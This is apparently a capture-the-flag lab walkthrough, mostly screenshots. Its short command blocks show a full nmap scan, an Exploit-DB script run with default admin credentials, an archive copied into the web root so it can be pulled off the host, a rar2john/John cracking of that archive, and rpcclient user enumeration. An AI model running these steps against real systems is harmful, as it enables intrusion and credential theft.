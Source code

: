 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/46b3eebd-3b00-4c5c-b77e-90dd8649b59e)

```
nmap 192.168.2.11 -v -sC -sV -sT -p-
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/035ed021-38be-4e63-8270-fb2f2a864133)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fa958512-4acf-4958-984f-ccd4cfad714e)
```
sudo nano /etc/hosts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ce8c250-6f52-40b4-a3f2-40899c5d2c45)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e290b55-96a7-48b9-9d67-b2477d7f6f3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c75d4e0f-cf98-4bb5-a1cf-db6e6045325e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aee1b1bb-33ee-4c84-bced-2e5c09c020a8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/be1b8116-e1ee-4703-b11c-a4dc6178beab)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2f6f2791-0435-4e41-8a03-76fb79c4da59)

https://www.exploit-db.com/exploits/51741
```
python3 sc.py -u http://foundation/ -l admin -p password
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2604cb3a-0647-4bb4-addd-b95747e42d7f)

```
copy C:\IT-support\members.rar C:\xampp\htdocs\members.rar
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3e6d6d4c-a717-4243-a76a-25bba2b661ed)

```
rar2john members.rar > rar.hash
john --wordlist=/home/kali/PAYLOADS/rockyou.txt rar.hash
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4cfab936-c40f-49cb-9d88-6e8389be8deb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/45092782-9ac5-4cd6-b8ea-0b184a81d8b3)

```
rpcclient -U veronika.sultanova 192.168.2.11
queryuser mikhail.larionov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/56b20868-b957-4c21-bc6a-f7354e8b3ba4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/76dc000f-ffd7-4aa5-a091-5845705994d5)


